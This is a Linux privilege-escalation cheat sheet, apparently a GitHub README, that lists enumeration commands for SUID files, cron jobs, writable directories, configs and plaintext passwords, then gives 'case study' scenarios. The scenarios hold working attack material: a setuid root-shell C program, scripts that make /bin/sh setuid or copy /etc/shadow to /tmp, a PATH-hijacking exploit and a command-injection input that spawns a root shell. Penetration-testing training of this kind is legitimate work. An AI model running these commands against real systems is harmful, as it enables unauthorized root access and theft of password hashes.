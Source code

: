 #### Check kernel version
- uname -a

#### Environmental variables
- cat /etc/profile
- cat /etc/bashrc
- cat ~/.bash_profile
- cat ~/.bashrc
- cat ~/.bash_logout

#### Check common location for user installed software
- /usr/local/
- /usr/local/src
- /usr/local/bin
- /opt/
- /home
- /var/
- /usr/src/

#### Available services
- netstat -anlp
- netstat -ano

#### Running services
- ps aux | grep root
- ps -ef | grep root
- top
- cat /etc/services

#### Plain text usernames and/or password
- grep -i user [filename]
- grep -i pass [filename]
- grep -C 5 "password" [filename]
- find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"   # Joomla

#### Unmounted filesystem
- mount -l
- cat /etc/fstab

#### Access to more binaries
- export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

#### Searching SUID file (SUID file is a special type of file permission given to a file
- find / -perm -u=s -type f 2>/dev/null
- find / -perm -4000 -type f 2>/dev/null
- find / -uid 0 -perm -4000 -type f 2>/dev/null
- find / -type f -perm -g+s -exec ls -ald {} \; 2>/dev/null

#### Find 
- find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ;

#### Find world writable files
- find / -writable -type d 2>/dev/null
- find / -perm -222 -type d 2>/dev/null
- find / -perm -o w -type d 2>/dev/null
- find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null

##### Find world writable folder
- find / -perm -o x -type d 2>/dev/null

##### Find world writable and executable folders
- find / \( -perm -o w -perm -o x \) -type d 2>/dev/null

#### Execute file as root
- sudo -l

#### Installed apps
- ls -alh /usr/bin/
- ls -alh /sbin/
- dpkg -l
- rpm -qa
- ls -alh /var/cache/apt/archivesO
- ls -alh /var/cache/yum/

#### Services misconfigured
- cat /etc/syslog.conf
- cat /etc/chttp.conf
- cat /etc/lighttpd.conf
- cat /etc/cups/cupsd.conf
- cat /etc/inetd.conf
- cat /etc/apache2/apache2.conf
- cat /etc/my.conf
- cat /etc/httpd/conf/httpd.conf
- cat /opt/lampp/etc/httpd.conf
- ls -aRl /etc/ | awk '$1 ~ /^.*r.*/

#### World writable directories
- /tmp
- /var/tmp
- /dev/shm
- /var/spool/vbox
- /var/spool/samba

#### Cronjobs
- crontab -l
- ls -alh /var/spool/cron
- ls -al /etc/ | grep cron
- ls -al /etc/cron*
- ls -alh -R /etc/cron*
-----------------------------------------------------------------------------------------------------------------------
## Case study
### Secanrio 1
#### Create usefull C file
int main()
{
  setuid(0);
  setgid(0);
  execl("/bin/sh", "sh", 0)
}

#### Create usefull bash script

##### Make a user sudoer
```
#!/bin/bash
adduser test sudo
```

##### Get a root shell
```
#!/bin/bash
chown root:root /bin/sh ; chmod 4777 /bin/sh

run: /bin/sh
```

##### Read /etc/shadow

```
#!/bin/bash
cat /etc/shadow > /tmp/shadow
```
### Secanrio 2

- Improper suid example 1

```suid binary use command cat /path/file```

- run the cat command without providing the full path.

##### Privesc

```
cd /tmp
echo /bin/bash > cat
chmod 777 cat
export PATH=/tmp:$PATH
run binary
```
- Improper suid example 2

```suid binary passed user input is to the /bin/echo command```

- command injection

##### Privesc

```
./suidbinary
Meassage for root: hello && /bin/sh
id 
```

#### Run usefull script for linux enumeration
- ***Linenum***: https://github.com/rebootuser/LinEnum
- ***Linuxprivchecker***: https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py
- ***LinuxExploitSuggester***: https://github.com/mzet-/linux-exploit-suggester
- ***LinuxExploitSuggester2***: https://github.com/jondonas/linux-exploit-suggester-2
- ***LinuxPrivChecker***: https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py
- ***LinuxSmartEnumeration***: https://github.com/diego-treitos/linux-smart-enumeration

#### 6) Enumerate /var directory and uncommon files and directory names

